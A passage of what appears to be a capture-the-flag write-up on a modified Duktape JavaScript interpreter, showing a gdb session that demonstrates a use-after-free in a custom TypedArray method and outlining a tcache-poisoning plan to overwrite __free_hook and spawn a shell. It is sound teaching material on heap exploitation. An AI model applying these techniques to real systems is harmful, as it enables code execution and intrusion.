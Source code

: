 
And running `duk` in `gdb`:

```bash
gef➤ b  duk_bi_typedarray_midnight      # before the free
gef➤ b *duk_bi_typedarray_midnight+46   # after the free
Breakpoint 1 at 0x555555574f17: file duk_bi_buffer.c, line 2818.
duk> var a = new Uint8Array(0x1e0);
= undefined
duk> a;
= [object Uint8Array]
duk> a.midnight();
...
gef➤ heap bins
...
Tcachebins[idx=24, size=0x1a0] count=1  ←  Chunk(addr=0x5555555a3c50, size=0x1a0, flags=PREV_INUSE)
Tcachebins[idx=42, size=0x2c0] count=1  ←  Chunk(addr=0x5555555a3fe0, size=0x2c0, flags=PREV_INUSE)
...
gef➤ c
...
gef➤ heap bins
...
Tcachebins[idx=24, size=0x1a0] count=1  ←  Chunk(addr=0x5555555a3c50, size=0x1a0, flags=PREV_INUSE)
Tcachebins[idx=29, size=0x1f0] count=1  ←  Chunk(addr=0x5555555a3df0, size=0x1f0, flags=PREV_INUSE)
Tcachebins[idx=42, size=0x2c0] count=1  ←  Chunk(addr=0x5555555a3fe0, size=0x2c0, flags=PREV_INUSE)
...
gef➤ c
duk> a[0] = 0x41;
duk> a[1] = 0x41;
duk> a[2] = 0x41;
duk> a[3] = 0x41;
duk> a.midnight();
gef➤ heap bins
...
Tcachebins[idx=29, size=0x1f0] count=1  ←
    Chunk(addr=0x5555555a3df0, size=0x1f0, flags=PREV_INUSE)  ←
    [Corrupted chunk at 0x41414141] ...
```

We can also access the `fd` and `bk` pointers of freed chunks by indexing the freed array.

# Exploitation
## Plan
1. Leak a libc address using the UAF
2. Allocate a chunk at `__free_hook` using Tcache poisoning
3. Set `__free_hook` to `system` or `one_gadget`
4. Free a chunk containing `/bin/sh\x00`
5. Win :D

## Libc Leak
We created a chunk with size 0x1000, freed it, and read its contents which contained a libc pointer.
